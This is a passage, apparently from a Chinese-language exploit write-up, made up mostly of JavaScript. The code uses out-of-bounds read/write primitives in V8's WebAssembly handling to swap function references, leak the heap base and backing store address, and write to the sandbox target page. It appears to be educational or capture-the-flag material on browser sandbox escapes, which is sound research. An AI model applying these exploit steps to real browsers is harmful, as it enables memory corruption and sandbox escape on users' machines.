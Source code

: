 ```js
  const or_function_data = 
    limit_read(or_share_info) & 0xFFFFFFFFn;
  const ow_function_data = 
    limit_read(ow_share_info) & 0xFFFFFFFFn;
  // get func_ref
  const or_func_ref = 
    limit_read(or_function_data) & 0xFFFFFFFFn;
  const ow_func_ref = 
    limit_read(ow_function_data) & 0xFFFFFFFFn;
  const dr_func_ref = 
    limit_read(dr_function_data) & 0xFFFFFFFFn;
  const dw_func_ref = 
    limit_read(dw_function_data) & 0xFFFFFFFFn;
  limit_write(or_function_data, dr_func_ref);
  limit_write(ow_function_data, dw_func_ref);
}
```

最后要注意的是，`oob_write`函数在向内存中写入数据时还会将传入的目标地址与wmemory堆地址相加，所以为了确保写入的地址正确，我们还需要得到wmemory堆地址，并用要写入的目标地址减去wmemory堆地址，这样在写入时就可以写入到正确的目标地址：

```js

function get_heap_base(){
  const u32array_addr = leak_addr(u32array);
  limit_write(u32array_addr+(0x30n-0x8n), 0x0n);
  limit_write(u32array_addr+(0x38n-0x8n), 0x0n);

  limit_write(u32array_addr+(0x24n-0x8n), 0x15n);
  limit_write(u32array_addr+(0x2Cn-0x8n), 0x15n);

  const base = u32array[0x13];
  return BigInt(base)<<0x20n;
}

function get_wasm_mem(base){
  const addr = leak_addr(wmemory);
  const buffer_addr = 
    limit_read(addr+(0xCn-0x8n)) & 0xFFFFFFFFn;
  const offset_l = 
    limit_read(buffer_addr+(0x24n-0x8n)) & 0xFFFFFFFFn;
  const offset_h = 
    limit_read(buffer_addr+(0x28n-0x8n)) & 0xFFFFFFFFn;
  const offset = 
    ((BigInt(offset_h)<<0x20n) + offset_l) >> 0x18n;
  const bk_addr = base + offset;
  return bk_addr;
}

const js_heap_base = get_heap_base();
const backing_store_addr = get_wasm_mem(js_heap_base);
replace_func_ref();
const target_page = BigInt(Sandbox.targetPage);
const address = target_page - backing_store_addr;
print("[*]target_page:"+target_page.toString(16));
oob_write(address, 0x9n);
```
